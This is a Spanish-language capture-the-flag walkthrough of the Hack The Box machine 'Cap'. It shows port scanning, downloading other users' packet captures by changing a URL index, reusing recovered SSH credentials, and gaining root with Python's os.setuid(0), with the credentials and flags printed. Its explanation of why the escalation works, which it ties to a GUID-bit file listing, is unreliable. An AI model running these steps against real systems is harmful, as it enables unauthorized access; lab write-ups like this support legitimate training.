

# MÁQUINA CAP
En el siguiente documento se describe la resolución de la máquina Cap, de nivel fácil. 

**URL**: https://app.hackthebox.com/machines/Cap

<br>

## 1. ENUMERACIÓN 
Realizamos un escaneo de puertos inicial. 
```
> nmap -sV -sC 10.10.10.245
```
- sV: para obtener la versión de los servicios encontrados. 
- sC: para ejecutar scripts de enumeración, nos proporciona información adicional de cada servicio encontrado.

Obtenemos lo siguiente:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   ... (más líneas)
```


## 2. EXPLOTACIÓN

### 2.1. HTTP 
Al acceder al servicio web, nos encontamos lo siguiente:


Al introducir cualquier cosa en la barra de búsqueda, la URL queda tal que


Probé entonces a sustituir *mario#* por *../../../../etc/hosts* para probar un path traversal, pero no fue exitoso. 

Continué entonces navegando por la página, y me encontré con que el botón *Download* en *Security Snapshot* nos descarga un archivo *.pcap*, una captura de escaneos hechos por otros usuario. El escaneo 1, por ejemplo, muestra cómo un usuario ejecuta gobuster para buscar posibles subdirectorios (que, si los ponemos en el navegador, no existen). 


Si cambiamos la ruta en el navegador, poniendo cualquier número del 0 al 12 en /data/\<n\>, podemos descargar los escaneos de los distintos usuarios. Fui abriendo todos, hasta probar con el 0 que, finalmente, sí tenía información relevante! 



Podemos probar estas credenciales para entrar con SSH a la máquina. 

### 2.2. SSH 
Ejecutamos ssh...
```
> ssh nathan@10.10.10.245

nathan@10.10.10.245's password: (Buck3tH4TF0RM3!)
```
Y, en efecto, hay éxito.


Veamos qué usuario somos. 
```
nathan@cap:~$ whoami
nathan
```

No somor root, pero por ahora obtener la user flag, que se encuenta directamente al hacer *ls*. 
```
nathan@cap:~$ cat user.txt 
a9adb9dde3a123aa29fe274f062476d6
```


<br>

## 3. ESCALADA DE PRIVILEGIOS
### Permisos sudo
Primero, veamos si el usuario nathan puede ejecutar algún comando como sudo, aún sin ser root. 
```
nathan@cap:~$ sudo -l

[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
```
No es el caso. 

###  Binarios SUID/GUID
Podemos buscar archivos con permisos SUID o GUID, que nos darán la opción de escalar privilegios. 
``` 
nathan@cap:~$ find / -perm -2000 2>/dev/null
``` 
- **find /:** para buscar desde la raíz 
- **-perm -2000:** buscamos archivos con el bit GUID (-2000). Usaríamos -4000 para binarios SUID. 
- **2>/dev/null:** silenciamos los errores mandándolos a /dev/null

Obtenemos lo siguiente:

``` 
/usr/bin/chage
/usr/bin/bsd-write
/usr/bin/crontab
/usr/bin/expiry
/usr/bin/at
/usr/bin/ssh-agent
/usr/bin/wall
/usr/lib/x86_64-linux-gnu/utempter/utempter
/usr/sbin/unix_chkpwd
/usr/sbin/pam_extrausers_chkpwd
/usr/local/lib/python3.8
/usr/local/lib/python3.8/dist-packages
/usr/local/lib/python3.8/dist-packages/itsdangerous
/usr/local/lib/python3.8/dist-packages/itsdangerous/__pycache__
/usr/local/lib/python3.8/dist-packages/MarkupSafe-2.0.0.dist-info
/usr/local/lib/python3.8/dist-packages/limits-1.5.1.dist-info
/usr/local/lib/python3.8/dist-packages/click-8.0.0.dist-info
/usr/local/lib/python3.8/dist-packages/Jinja2-3.0.0.dist-info
/usr/local/lib/python3.8/dist-packages/click
/usr/local/lib/python3.8/dist-packages/click/__pycache__
/usr/local/lib/python3.8/dist-packages/Werkzeug-2.0.0.dist-info
/usr/local/lib/python3.8/dist-packages/Flask_Limiter-1.4.dist-info
/usr/local/lib/python3.8/dist-packages/flask
/usr/local/lib/python3.8/dist-packages/flask/__pycache__
/usr/local/lib/python3.8/dist-packages/flask/json
/usr/local/lib/python3.8/dist-packages/flask/json/__pycache__
/usr/local/lib/python3.8/dist-packages/limits
/usr/local/lib/python3.8/dist-packages/limits/__pycache__
/usr/local/lib/python3.8/dist-packages/limits/backports
/usr/local/lib/python3.8/dist-packages/limits/backports/__pycache__
/usr/local/lib/python3.8/dist-packages/itsdangerous-2.0.0.dist-info
/usr/local/lib/python3.8/dist-packages/markupsafe
/usr/local/lib/python3.8/dist-packages/markupsafe/__pycache__
/usr/local/lib/python3.8/dist-packages/dpkt
/usr/local/lib/python3.8/dist-packages/dpkt/__pycache__
/usr/local/lib/python3.8/dist-packages/gunicorn
/usr/local/lib/python3.8/dist-packages/gunicorn/http
/usr/local/lib/python3.8/dist-packages/gunicorn/http/__pycache__
/usr/local/lib/python3.8/dist-packages/gunicorn/app
/usr/local/lib/python3.8/dist-packages/gunicorn/app/__pycache__
/usr/local/lib/python3.8/dist-packages/gunicorn/__pycache__
/usr/local/lib/python3.8/dist-packages/gunicorn/workers
/usr/local/lib/python3.8/dist-packages/gunicorn/workers/__pycache__
/usr/local/lib/python3.8/dist-packages/gunicorn/instrument
/usr/local/lib/python3.8/dist-packages/gunicorn/instrument/__pycache__
/usr/local/lib/python3.8/dist-packages/flask_limiter
/usr/local/lib/python3.8/dist-packages/flask_limiter/__pycache__
/usr/local/lib/python3.8/dist-packages/dpkt-1.9.5.dist-info
/usr/local/lib/python3.8/dist-packages/jinja2
/usr/local/lib/python3.8/dist-packages/jinja2/__pycache__
/usr/local/lib/python3.8/dist-packages/werkzeug
/usr/local/lib/python3.8/dist-packages/werkzeug/middleware
/usr/local/lib/python3.8/dist-packages/werkzeug/middleware/__pycache__
/usr/local/lib/python3.8/dist-packages/werkzeug/debug
/usr/local/lib/python3.8/dist-packages/werkzeug/debug/shared
/usr/local/lib/python3.8/dist-packages/werkzeug/debug/__pycache__
/usr/local/lib/python3.8/dist-packages/werkzeug/sansio
/usr/local/lib/python3.8/dist-packages/werkzeug/sansio/__pycache__
/usr/local/lib/python3.8/dist-packages/werkzeug/__pycache__
/usr/local/lib/python3.8/dist-packages/werkzeug/wrappers
/usr/local/lib/python3.8/dist-packages/werkzeug/wrappers/__pycache__
/usr/local/lib/python3.8/dist-packages/gunicorn-20.1.0.dist-info
/usr/local/lib/python3.8/dist-packages/Flask-2.0.0.dist-info
/var/log/journal
/var/log/journal/06774f23bd654b25a296a616308d2acd
/var/mail
/var/local
/run/log/journal
/snap/core18/2066/sbin/pam_extrausers_chkpwd
/snap/core18/2066/sbin/unix_chkpwd
/snap/core18/2066/usr/bin/chage
/snap/core18/2066/usr/bin/expiry
/snap/core18/2066/usr/bin/ssh-agent
/snap/core18/2066/usr/bin/wall
/snap/core18/2066/var/mail
/snap/core18/2074/sbin/pam_extrausers_chkpwd
/snap/core18/2074/sbin/unix_chkpwd
/snap/core18/2074/usr/bin/chage
/snap/core18/2074/usr/bin/expiry
/snap/core18/2074/usr/bin/ssh-agent
/snap/core18/2074/usr/bin/wall
/snap/core18/2074/var/mail
```

Observamos un montón de archivos relacionados con */usr/local/lib/python3.8*.

Con python podemos hacer una escala de privilegios sencilla. 
Ejecutamos python...
```
> python3
```

Importamos la librería os para operar con el sistema operativo. 
```
> import os
```

Establecemos nuestro uid (User ID) a 0, el cual es el ID perteneciente a root. 
```
> os.setuid(0)
```

Veamos si ha tenido éxito:
```
> os.getuid()
0

> os.system("whoami")
root
0
```

Perfecto. Ahora que somos root abrimos una terminal con "bash".
```
> os.system("bash")
```

Y ya tenemos una terminal como root. 
```
root@cap:~# cd /root/

root@cap:/root# ls
root.txt  snap

root@cap:/root# cat root.txt 
2a3ca78ea934fa11b492f79d3ab41e31
```

<br>

## RECAP FLAGS
- **User flag:** a9adb9dde3a123aa29fe274f062476d6
- **Root flag:** 2a3ca78ea934fa11b492f79d3ab41e31

